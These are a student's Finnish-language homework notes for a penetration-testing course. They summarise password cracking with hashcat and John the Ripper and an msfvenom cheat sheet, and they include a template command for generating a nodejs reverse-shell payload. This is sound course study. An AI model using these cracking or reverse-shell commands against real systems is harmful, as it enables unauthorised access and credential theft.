 # [H4 Marraskuu2024!](https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024) (Karvinen 2024)

## x)  Lue/katso ja tiivistä.

### Cracking Passwords with Hashcat (Karvinen 2022)

- salasanat tallennettu tiivisteinä
  - tiivisteitä testataan sanalistoja vastaan
- hashcatia asennettaessa kannattaa myös asentaa hashid
  - hashid auttaa selvittämään tiivisteen algoritmi
- hashcatin tavanomainen käyttö
  - `hashcat -m [algoritmin hashcat id] '[tiiviste]' [sanalista] -o [tiedostonimi outputille]`

### Crack File Password With John (Karvinen 2023)

- John the Ripperillä voidaan murtaa tiedostojen salauksia
- binääri täytyy itse kääntää lähdekoodista
- kloonaa git repo, tarkista ympäristö ja tee Makefile(./configure), käännä lähdekoodi (make, ks. Makefilestä oikeat komennot ja parametrit)
- johnin tavanomainen käyttö
  - tiedostosta tiivste irti
  - aja john

### Security Penetration Testing - The Art of Hacking Series LiveLessons: Lesson 6: Hacking User Credentials (Santos et al. 2017)


### HackTricks: MSFVenom - CheatSheet (HackTricks 2024)

- perushomma
  - ``msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>``
- nodejs
  - ``msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)``

## Lähteet

HackTricks, 2024. MSFVenom - CheatSheet. Luettavissa: https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom Luettu: 2024-11-15

Karvinen, T. 2022. Cracking Passwords with Hashcat. Luettavissa: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/ Luettu: 2024-11-15

Karvinen, T. 2023. Crack File Password With John. Luettavissa: https://terokarvinen.com/2023/crack-file-password-with-john/ Luettu: 2024-11-15

Karvinen, T. 2024. Tunkeutumistestaus. H4 Marraskuu!. Luettavissa: https://terokarvinen.com/tunkeutumistestaus/#h4-marraskuu2024 Luettu: 2024-11-15

Santos, O., Sternstein, J., Taylor, R., McCoy, C. 2017. Security Penetration Testing The Art of Hacking Series LiveLessons. Katsottavissa (vaatii kirjautumisen): https://learning.oreilly.com/course/security-penetration-testing/9780134833989/ Katsottu: UPDATE!!!
